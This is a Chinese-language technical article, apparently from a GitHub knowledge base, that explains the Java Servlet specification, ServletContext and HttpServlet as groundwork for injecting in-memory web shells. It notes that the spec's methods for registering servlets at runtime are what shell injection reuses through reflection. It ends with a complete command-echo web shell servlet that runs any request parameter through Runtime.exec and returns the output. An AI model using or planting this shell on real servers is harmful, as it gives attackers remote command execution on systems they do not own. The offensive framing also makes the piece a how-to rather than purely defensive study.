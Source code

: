 # Java Servlet

Java SE 中我们可以创建 socket 服务端为用户提供服务，但需要用户使用 socket 客户端，当然也可以基于 socket 实现 HTTP 协议，WebFlux 就是这样子的存在。而在 Java EE 中，Java 制定了 Servlet 规范，来规范在 Java 中提供 HTTP 服务的编写方式，其中有两个重要的概念，Servlet 与 Servlet Container。Servlet 是基于 Java 的 Web 组件，由容器进行管理，提供动态内容。Servlet 容器用于提供基于请求/响应发送模式的服务，必须支持 HTTP，并且管理 Servlet 的生命周期，使 Servlet 在一个受限的安全环境中执行。

Servlet 规范旨在让开发者基于规范开发的应用，可以部署在任意满足规范的 Web 容器上。每个 Servlet 规范版本都引入了一些新的东西，Servlet 4.0 前的版本变更可查看 [java-servlet-version-history](https://www.codejava.net/java-ee/servlet/java-servlet-version-history)。

目前常见的 Servlet 规范就是 [Servlet 3.1](https://github.com/waylau/servlet-3.1-specification/blob/master/docs), Tomcat 8.x 版本就是 Servlet 3.1 版本，从 Servlet 5.0 开始，Java EE 更名为 Jakarta EE，包路径从 javax 改为 jakarta。目前最新的 Servlet 规范是 Servlet 6.1。另外可以 [在此](https://tomcat.apache.org/whichversion.html) 查看 Tomcat 容器支持的 Servlet 规范版本。

## ServletContext

> [Servlet 3.1 规范 - 4.1 ServletContext 接口介绍](https://github.com/waylau/servlet-3.1-specification/blob/master/docs/Servlet%20Context/4.1%20Introduction%20to%20the%20ServletContext%20Interface.md)

ServletContext 定义了 Servlet 运行的 Web 应用视图，一个 Web 应用对应一个 ServletContext。

ServletContext 必须支持编程式添加 Servlet、Filter 和 Listener，对框架开发者有用处。但是规定了这些方法只能在 ServletContextListener.contexInitialized 或 ServletContainerInitializer.onStartup 应用初始化的时候调用。

```java
addServlet(String servletName, String className);
addServlet(String servletName, Servlet servlet);
addServlet(String servletName, Class <? extends Servlet> servletClass);
addFilter(String filterName, String className);
addFilter(String filterName, Filter filter);
addFilter(String filterName, Class <? extends Filter> filterClass);
void addListener(String className);
void addListener(T t);
void addListener(Class <? extends EventListener> listenerClass);
```

这就是在注入内存马时我们需要先拿 Context 的原因（已经写在了 Servlet 规范里面啦），所以针对实现了 Servlet 规范的 Web 容器都是一个套路，并且该反射调用哪些方法也写在里面了。不过在实现的时候却写了那么多代码的原因就是，其规定了这些方法只能在应用初始化的时候调用，我们注入内存马的时候已经是应用运行时了，那些代码实际上就是将方法内的具体实现重新用反射实现一遍。

## HttpServlet

99.99% 的时候，我们实现 HttpServlet 抽象类给予我们的能力就可以了，以下每个方法都对应了 HTTP Method 方法，当我们想要实现处理 Get 请求实现 doGet，处理 Post 请求就实现 doPost。

```java
protected void doGet(HttpServletRequest req, HttpServletResponse resp);
protected void doPost(HttpServletRequest req, HttpServletResponse resp);
protected void doPut(HttpServletRequest req, HttpServletResponse resp);
protected void doDelete(HttpServletRequest req, HttpServletResponse resp);
protected void doHead(HttpServletRequest req, HttpServletResponse resp);
protected void doOptions(HttpServletRequest req, HttpServletResponse resp);
protected void doTrace(HttpServletRequest req, HttpServletResponse resp);
```

Servlet 规范中规定了，对于非分布式应用来说，Servlet 容器必须确保对于每个 Servlet 定义只存在一个实例，但是 Web 服务是多线程的，所以 Servlet 是线程不安全的，在 Servlet 中的成员变量都是线程不安全的。

针对 Servlet 的路径映射提供了注解的方式和 web.xml 方法，以下两种方式都能定义访问 `/foo` 即调用 CalculatorServlet 中对应的实现方法。

```java
@WebServlet(”/foo”)
public class CalculatorServlet extends HttpServlet{
//...
}
```

```xml
<servlet>
    <servlet-name>foo</servlet-name>
    <servlet-class>org.example.CalculatorServlet</servlet-class>
</servlet>
<servlet-mapping>
    <servlet-name>foo</servlet-name>
    <url-pattern>/foo</url-pattern>
</servlet-mapping>
```

## ServletShell

shell 的目的，就是为了定义一个入口，我们能与 Web 服务器进行交互。以下定义了一个命令回显的 ServletShell。

1. doGet 调用转发给 doPost，这样我们即支持 GET 也支持 POST，防止某些情况下有请求方法的限制。
2. 交互的入口是 `request.getParameter` 支持两种方式传参。GET/POST 请求发送 `/?paramName=whoami`，也可以发送 POST 请求时使用 `application/x-www-form-urlencoded` 发送 body 参数。`multipart/form-data` 是不支持从 `request.getParameter` 获取参数的。

```java
public class CommandServlet extends HttpServlet {
    public static String paramName;

    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        doPost(req, resp);
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        try {
            String cmd = request.getParameter(paramName);
            if (cmd != null) {
                Process exec = Runtime.getRuntime().exec(cmd);
                InputStream inputStream = exec.getInputStream();
                ServletOutputStream outputStream = response.getOutputStream();
                byte[] buf = new byte[8192];
                int length;
                while ((length = inputStream.read(buf)) != -1) {
                    outputStream.write(buf, 0, length);
                }
            }
        } catch (Exception ignored) {
        }
    }
}
```
